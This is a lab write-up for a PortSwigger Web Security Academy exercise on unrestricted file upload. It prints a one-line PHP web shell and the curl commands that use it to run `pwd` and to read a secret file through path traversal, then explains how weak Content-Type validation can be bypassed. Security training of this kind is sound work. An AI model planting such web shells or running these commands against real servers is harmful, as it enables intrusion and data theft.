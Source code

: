 # 1f1 - Remote code execution via web shell upload \[PortSwigger Lab]

This lab contains a vulnerable image upload function. It doesn't perform any validation on the files users upload before storing them on the server's filesystem.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret.

You can log in to your own account using the following credentials: `wiener:peter`

### **Solution:**

So this application has an unprotected upload field in user page where you can upload profile avatar.

<figure><img src="../../../.gitbook/assets/Pasted image 20240719131804.png" alt=""><figcaption><p>unprotected file upload</p></figcaption></figure>

From there, I effectively uploaded a file named `mal.php` with contents `<?php echo system($_GET['command']); ?>`

once upload was done, I had to know where the file was uploaded so I could call it. Inspecting avatar link gave me the clue. `<img src="/files/avatars/mal.php" class="avatar">`

so I opened up terminal and called the `mal.php`

```
$> curl -X GET "https://0a9000000490ee47800ead51001f0062.web-security-academy.net/files/avatars/mal.php?command=pwd"

/var/www/html/avatars
/var/www/html/avatars
```

Now I know I'm at `/var/www/html/avatars`. So to read the contents of the `secrets` file, all I have to do is a simple \[\[2 - Portswigger Academy#Path Traversal |Path Traversal]]

```
$> curl -X GET "https://0a9000000490ee47800ead51001f0062.web-security-academy.net/files/avatars/mal.php?command=cat%20../../../../home/carlos/secret"

U4AE****************************U4AE****************************
```

Keep in mind this method repeats the message twice, so I had to remove the second part of message.

The `secret` contents:`` `U4AE****************************' ``

***

Most of the times, FOV will not be this easy. There will be defense mechanisms in place, but it doesn't mean they are robust. They can still be exploited by finding flaws in these defense mechanisms.

1. Flawed file type validation When submitting HTML forms, the browser sends this data in POST request with content type `application/x-www-form-url-encoded`. This is fine for textual data, but for larger amounts of binary data like PDF or images, content type `multipard/form-data` is preferred.

Consider the following example of form upload with image field, description and username

```
POST /images HTTP/1.1 
Host: normal-website.com 
Content-Length: 12345 
Content-Type: multipart/form-data; 
boundary=---------------------------012345678901234567890123456 ---------------------------012345678901234567890123456 
Content-Disposition: form-data; 
name="image"; 
filename="example.jpg" 
Content-Type: image/jpeg 
[...binary content of example.jpg...] 
---------------------------012345678901234567890123456 
Content-Disposition: form-data; 
name="description" This is an interesting description of my image. ---------------------------012345678901234567890123456 
Content-Disposition: form-data; 
name="username" wiener ---------------------------012345678901234567890123456--
```

We can see Content-Type, filename, binary data and other interesting information about this form in here.

One way that a website might validate uploaded file, is to check the input-specific `Content-Type` if it matches expected file type. if it only expects `image/png` it will only allow PNG. It could become problematic if the server trusts this header for what a file is and doesn't perform further validation on the file, whether the file itself matches its description. this defense can be bypassed a tool like BurpSuite.
